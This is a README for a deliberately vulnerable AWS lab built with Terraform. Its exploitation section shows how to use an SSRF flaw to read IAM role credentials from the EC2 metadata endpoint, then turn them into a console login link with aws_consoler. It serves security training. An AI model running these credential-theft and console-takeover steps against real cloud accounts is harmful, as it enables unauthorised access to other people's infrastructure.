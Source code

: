 # AWS Console Takeover Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS Console Takeover vulnerability environment.

After building the environment with Terraform, The SSRF vulnerability can be used to obtain STS data on EC2 and then use the STS data to take over the AWS console.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/ec2/console_takeover/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

## Vulnerability Utilization

On EC2 with SSRF vulnerabilities, we can use SSRF to read STS information.

Read STS information

```shell
http://169.254.169.254/latest/meta-data/iam/security-credentials/huoxian_terraform_goat_role
```

![img](../../../images/1652434082.png)

Generate AWS console access links with the aws_consoler tool

```shell
apt install python3-pip
pip install aws-consoler
aws_consoler -R us-east-1 -a {Your_AccessKeyId} -s {Your_SecretAccessKey} -t {Your_Token}
```

Copy the generated link into your browser and open it to take over the AWS Service Console.

![img](../../../images/1652435065.png)

## Destroy the environment

```shell
terraform destroy
```
